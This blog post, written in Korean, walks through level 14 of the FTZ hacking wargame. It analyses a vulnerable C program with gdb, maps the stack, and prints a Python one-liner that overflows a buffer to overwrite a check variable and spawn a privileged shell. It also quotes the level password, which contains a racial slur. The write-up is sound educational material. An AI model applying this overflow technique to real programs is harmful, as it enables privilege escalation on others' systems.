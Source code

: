 ```yaml
---
title:  "[FTZ] level 15"

categories: ftz
tags: [ftz]

toc: true
toc_sticky: true

date: 2021-12-18 18:39:31

---
```


# level 14

**level14 / what that nigga want?**

힌트

![image](https://user-images.githubusercontent.com/69203345/146631165-0286625e-073d-46f0-9a9b-863146d593bb.png)

버퍼 오버플로우, 포맷스트링 학습에 도움이 된다고 적혀있다.

정수형 crap  
정수형 check  
buf에 20바이트 크기 할당  
fgets로 문자열을 받는데 45바이트 만큼만 받음  
check 가 0xdeadbeef일때 if 문 실행  
level15의 pid, /bin/bash 실행

/tmp로 복사해서 gdb분석

![image](https://user-images.githubusercontent.com/69203345/146633619-f6a0afc4-80fa-4851-8104-d240af4d14bb.png)

"그 시간"

0x080484a1 <main+17>:    lea    eax, [ebp-56]  
buf에서 ebp까지의 거리 56

0x080484ad <main+29>:    cmp    DWORD PTR [ebp-16], 0xdeadbeef  
check 에서 ebp 까지의 거리 16

낮은주소

buf[20] [ebp-56]  
dummy[20]  
check[4] [ebp-16]  
crap[4]+dummy[8]   
sfp[4]  
ret[4]

높은주소

페이로드  
buf에서 check까지의 거리 + 변조할값
> (python -c 'print "A"*40+"\xef\xbe\xad\xde"'; cat) | ./attackme


![image](https://user-images.githubusercontent.com/69203345/146635091-6ad8ad0c-2996-4833-809b-bafeee270d13.png)

